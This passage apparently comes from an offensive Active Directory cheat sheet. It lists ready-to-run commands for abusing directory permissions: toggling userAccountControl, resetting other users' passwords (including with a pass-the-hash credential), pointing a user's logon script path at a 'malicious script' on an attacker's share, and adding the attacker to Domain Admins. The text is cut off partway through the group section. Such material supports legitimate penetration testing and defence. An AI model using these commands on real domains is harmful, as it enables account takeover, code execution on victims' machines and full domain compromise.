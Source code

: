 		# Set back the userAccountControl
		PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
		PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
		```

* Reset another user's password.
	* Windows/Linux:
		```ps1			
		# Using bloodyAD with pass-the-hash
		bloodyAD --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B set password john.doe 'Password123!'
		```
	* Windows only:
		```ps1
		# https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1
		$user = 'DOMAIN\user1'; 
		$pass= ConvertTo-SecureString 'user1pwd' -AsPlainText -Force; 
		$creds = New-Object System.Management.Automation.PSCredential $user, $pass;
		$newpass = ConvertTo-SecureString 'newsecretpass' -AsPlainText -Force; 
		Set-DomainUserPassword -Identity 'DOMAIN\user2' -AccountPassword $newpass -Credential $creds;
		```
	* Linux only:
		```ps1
		# Using rpcclient from the  Samba software suite
		rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
		```

* WriteProperty on an ObjectType, which in this particular case is Script-Path, allows the attacker to overwrite the logon script path of the delegate user, which means that the next time, when the user delegate logs on, their system will execute our malicious script : 
	* Windows/Linux:
		```ps1
		bloodyAD --host 10.0.0.5 -d example.lab -u attacker -p 'Password123*' set object delegate scriptpath -v '\\10.0.0.5\totallyLegitScript.ps1'
		```
	* Windows only:
		```ps1
		Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
		```

### Group
* This allows us to add ourselves to the Domain Admin group : 
	* Windows/Linux:
		```ps1
		bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 add groupMember 'Domain Admins' hacker
		```
	* Windows only:
		```ps1
		net group "domain admins" hacker /add /domain
		```
	* Linux only:
		```ps1
		# Using the Samba software suite